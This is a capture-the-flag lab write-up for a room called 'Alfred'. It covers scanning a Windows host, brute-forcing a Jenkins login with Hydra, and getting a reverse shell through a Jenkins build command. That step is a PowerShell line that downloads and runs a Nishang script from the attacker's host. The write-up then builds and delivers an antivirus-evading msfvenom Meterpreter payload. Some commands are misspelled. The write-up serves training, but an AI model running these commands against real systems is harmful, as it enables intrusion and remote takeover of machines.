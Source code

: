 # Alfred
* Exploit a common misconfiguration on a widely used automation server (Jenkins).
  * Jenkins is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it).
* Use an interesting privilege escalation method to get full system access.
## Initial Access
### nmap scan to determine open TCP ports.
```
nmap -sT -sV -p- -oN TARGET_IP_scan.nmap TARGET_IP
```
```
Not shown: 65532 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
```
### Identify username and password for login panel.
> It always is good practice to Google for default credentials before attempting any brute force attack. This will save a huge amount of time.
#### 1. Send login attempt via Burpsuite.
* Target > Project > Scope > Include "http://TARGET_IP:8080" in scope.
* Ensure **Intercept** is on.
* Open inbuilt Chromium browser to intercept requests.
* Proxy any username and password via login panel.
* Forward request to **Repeater**.
* **Send** to see the response.

#### 2. Brutefore login panel using Hydra.
* Login or Wordlist for Usernames = `/usr/share/wordlists/rockyou.txt`.
* Password or Wordlist for Passwords = `/usr/share/wordlists/rockyou.txt`.
* IP address or Hostname = TARGET_IP.
* HTTP Method (POST/GET) = `http-form-post`.
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * GET or POST Method displayed in request.
```
POST /j_acegi_security_check HTTP/1.1
```
* Directory/Path to the Login Page = `/j_acegi_security_check`.
  * Request header "Filename" attribute.
```
/j_acegi_security_check
```
* Request Body for Username/Password = `j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in`
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * Right click on request > **Edit and Resend**.
  * **Request Body** contains entered username and password.
  * Grab entire request.
```
j_username=12345&j_password=12345&from=%2F&Submit=Sign+in
```
  * Replace entered username with `^USER^ to tell Hydra to enter words from wordlist in this position of the request.
  * Replace entered password with ^PASS^.
* Way to Identify Failed Attempts = `Invalid username or password`.
  * Attempt to login using incorrect credentials.
  * Presented with "Invalid username or password" text.
  * Add this to Hydra command.
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt TARGET_IP -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
``` 
* Hydra bruteforces login and returns credentials.
```
[8080][http-post-form] host: 10.10.88.127   login: Admin   password: admin
[8080][http-post-form] host: 10.10.88.127   login: admin   password: admin
1 of 1 target successfully completed, 2 valid passwords found
```
### Use feature of Jenkins server to get reverse shell.

#### 1. Jenkins project Command field allows execution of commands on underlying system.
* **Job** > **Project** > **Configure**.
* **Build** section has text field where Windows commands are executed.
#### 2. Add PowerShell to exploitable field.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.29.136:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.29.136 -Port 1234
```
  * PowerShell script connects to standard netcat listening port when using "-Reverse" switch.
* **Save** project.
#### 3. Clone [Nishang powershell scripts from GitHub]([https://github.com/samratashok/nishang).
```
mkdir tools
cd tools
git clone https://github.com/samratashok/nishang/
cd nishang/Shells
```
#### 4. Create http server to serve Nishang Invoke-PowerShellTcp script.
```
python3 -m http.server
```
#### 5. Create listener to catch the reverse shell.
```
nc -lvnp 1234
```
#### 6. Use Jenkins feature to download and run Nishang script.
* **Build Now** feature executes saved PowerShell.
* PowerShell uploaded to target.
```
10.10.88.127 - - [23/Feb/2024 15:27:19] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
#### 7. Reverse shell caught by listener.
```
Connection from 10.10.255.193 49253 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```
* "user.txt" is located in "C:\users\bruce\desktop" directory.
## Switching shells
* Switch to meterpreter shell to make privilege escalation easier.
#### 1. Use msfvenom to create meterpreter reverse shell.
* Payload generated is encoded x86-64 reverse TCP payload.
* Encoding used to evade AV products.
```
msfvenon -p windows/meterpreter/reverese_tcp -a x86 --encoder x86/shikata_ga_nai lhost=ATTACKER_IP lport=PORT -f exe -o shell-name.exe
```
#### 2. Download payload to target.
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```
#### 3. Verify handler is set up in Metasploit.
* Use Metasploit handler to receive incoming connection from reverse shell.
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```
#### 4. Start reverse shell.
```
start-process "shell-name.exe"
```
#### 5. Meterpreter reverse shell spawned.
## Privilege escalation
